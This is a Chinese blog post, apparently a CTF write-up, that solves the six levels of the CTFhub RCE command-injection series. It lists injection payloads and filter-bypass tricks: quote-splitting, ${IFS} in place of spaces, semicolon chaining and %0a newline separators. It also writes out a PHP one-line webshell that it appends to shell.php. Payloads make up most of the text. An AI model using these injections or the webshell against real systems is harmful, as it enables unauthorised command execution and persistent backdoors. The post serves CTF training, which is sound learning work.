 ```yaml
---
title: CTFhub RCE系列
date: 2020-03-18 16:35:21
tags:
    - rce
categories:
    - web
keywords: 
    - CTFhub RCE
toc: true
---
```




>今天介绍远程执行漏洞（其实想学反弹shell。
>
>首先需要掌握几种常见的语句。

　1、| ，& ，&&，||等操作　　　　

    　　 （1）& 表示先执行CMD1 再执行CMD2，这里不考虑CMD1是否成功。使用CMD1 & CMD2
    
    　　 （2）&& 表示先执行CMD1，成功后再执行CMD，否则不执行CMD2。使用CMD1 && CMD2
    
    　　 （3）|| 先执行CMD1，CMD1执行成功就不再执行CMD2，CMD1执行失败则执行CMD2。使用CMD1 || CMD2

　　2、payload（& / ‘ “ 空格等特殊符号需要时编码）

    　　　(1) cmd = 127.0.0.1 | whoami
    
    　　　(2) cmd = 127.0.0.1 & whoami
    
    　　　(3) cmd = 127.0.0.1 && whoami
    
    　　　(4) cmd = `whoami`
    
    　　　(5) cmd = '/"|whoami（这里意思是用'/"引号闭合前面 /->表示或）

　　3、常用的命令

    　　 （1） 有回显的：whoami id（验证类）
    
    　　　(2) 没有回显的：nslookup wget 等看请求、dnslog httplog等 （验证类）
    
    　　 （3）弹shell必须的，参考我自己的（http://www.cnblogs.com/KevinGeorge/p/8120226.html） 
————————————————
版权声明：本文为CSDN博主「iamsongyu」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/iamsongyu/article/details/84483638

## 第一关
没有任何过滤
127.0.0.1|ls
127.0.0.1|cat ```.php
F12看源码。
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/OM37TH7SIQCK73E2G@8-1024x549.png)

---------
## 第二关 过滤掉了cat
还是先看
127.0.0.1|ls
127.0.0.1|c'a't flag_110451125822562.php
F12出flag
上述是一种方法
还有一种可以传一句话木马
```
127.0.0.1|echo "<?php @eval(\$_POST['a']);?>" >> shell.php
```
连shell就不展示了![](http://www.zhaobairen.club/wp-content/uploads/2020/03/TW97C_BNTT6OS5SIP6KR5T-1024x549.png)

----------
## 第三关 过滤空格
127.0.0.1|ls
我这里是运用了${IFS}来绕过了空格，我尝试了括号和url编码无果，
考虑使用了${IFS}
```
127.0.0.1|cat${IFS}flag_518528200601.php
```
依然F12看源码得到flag![](http://www.zhaobairen.club/wp-content/uploads/2020/03/8WDTY2X9QEABJHN12RC-1024x549.png)

------
## 第四关	过滤目录分隔符
目录分割符通常是'\'或者是'/'
两者在python中都可用。
那么就用分号类似堆叠注入一样每个语句后加分号
127.0.0.1;ls![](http://www.zhaobairen.club/wp-content/uploads/2020/03/N75J42DC_7H0GR1CV@W-1024x549.png)
```
127.0.0.1;cd flag_is_here;ls
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/PVJ6G54_V@CHJWI3C1IJ68-1024x549.png)
老套路
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/TXGPO8AN7WQTY@YQD6S-1024x549.png)
## 第五关 过滤运算符
同上关就可。这让我想到了是不是上一关有其他方法。
我去搜索了下。
得到结果其他人也是这么做的。
去搜索了有没有分号过滤以及绕过
没有得到什么结果（以后填坑）
第六关就填坑了。
## 第六关 以上所有关全部过滤
难道不是第二关+第三关+第四关就结束了？
好吧，看到题确实不是hhh。
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/SMGMUY4I11MUFXPC-1024x549.png)
毕竟是最后一个了，给大家分析一下吧
首先过滤了基本上面我所用过的所有命令分隔符。
那么在这里介绍一下另外两种分隔符
%0a(换行符) 、%0d(回车符)，并且在url下写入
```
?ip=127.0.0.1%0Als#
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/Y3JV8J5TMPO3OIXS9QX-1024x549.png)
注意只能在url写，否则会被二次编码导致失效。
那么就继续下一步。
```
ip=127.0.0.1%0acd${IFS}'f'lag_is_here%0als#
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/F@Q@XEUE_YE2TW7G5A6-956x1024.png)
最后一把梭
```
ip=127.0.0.1%0acd${IFS}'f'lag_is_here%0a'c'at${IFS}'f'lag_256432033625740.php#
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/8EF1MBAB5TVTARMJ_XE-954x1024.png)
到此就结束一段了23333

--------------